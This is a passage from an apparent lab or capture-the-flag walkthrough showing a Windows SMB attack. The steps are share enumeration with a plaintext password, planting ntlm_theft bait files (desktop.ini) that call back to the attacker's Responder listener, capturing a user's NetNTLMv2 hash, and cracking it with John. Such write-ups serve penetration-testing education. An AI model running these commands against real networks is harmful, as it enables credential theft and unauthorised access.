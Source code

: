 With our valid credentials, we'll get a list of SMB shares on the machine using [smbmap](https://github.com/ShawnDEvans/smbmap).

```bash
# bryan@attacker
mkdir logs/smb
for u in svc_apache S.Moon
  do smbmap -H $rhost -p 'S@Ss!K@*t13' -u $u | tee logs/smb/$u-smbmap.log
done
```
{:.nolineno}

There are three non-standard shares being served: _Shared_, _Users_, and _Web_. We notice that _S.Moon_ has write access to the shared called _Shared_, while _svc\_apache_ does not.

```bash
# bryan@attacker
smbclient -U S.Moon //$rhost/Shared | tee -a logs/smb/S.Moon-smbclient.log
```
{:.nolineno}

The share doesn't seem to have anything in it though. Since we seem to have write access, we'll try uploading a file produced by [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) and see if we get a callback.

```bash
# bryan@attacker
./ntlm_theft.py -g all -s $lhost -f important
```
{:.nolineno}

We'll just start up Responder, upload all of the files, and pray that a user browses to this directory.

```bash
# bryan@attacker
sudo responder -I tun0 -v # Start listening for callbacks
```
{:.nolineno}
```bash
# bryan@attacker
cd important # Enter NTLM stealer directory
(echo 'S@Ss!K@*t13' | smbclient -U S.Moon //$rhost/Shared -c "prompt;mput *") |
  tee -a logs/smb/S.Moon-smbclient.log
```
{:.nolineno}

We hit an access error when uploading most of the files, but we do successfully upload `desktop.ini`{:.filepath} which involves very little user interaction. After some time, we get a callback from the user **_C.Bum_**.

![NTLM Theft](theft.png)
_We read an NTLM authentication attempt for the user C.Bum_

We'll attempt to crack this hash with John the Ripper as we did before.

```bash
# bryan@attacker
john netntlmv2.txt --wordlist=~/wordlist/rockyou.txt # use classic rockyou.txt wordlist
```
{:.nolineno}
